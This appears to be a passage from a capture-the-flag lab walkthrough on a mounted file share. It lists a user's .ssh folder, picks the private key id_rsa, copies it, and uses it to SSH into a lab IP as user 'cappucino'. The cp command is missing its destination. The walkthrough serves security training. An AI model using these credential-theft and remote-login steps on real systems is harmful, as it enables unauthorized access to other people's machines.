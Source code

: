 ![](<../../.gitbook/assets/Screenshot from 2020-09-16 17-06-37.png>)

### **Which of these folders could contain keys that would give us remote access to the server?**

```
ls cappucino/.ssh/
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 17-09-02.png>)

### **Which of these keys is most useful to us?**

{% hint style="success" %}
**id\_rsa**
{% endhint %}

### **Can we log into the machine using ssh?**

```
cd
cp /tmp/mount/cappucino/.ssh/id_rsa
chmod 600 id_rsa
ssh -i id_rsa cappucino@10.10.195.187
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 17-10-48.png>)
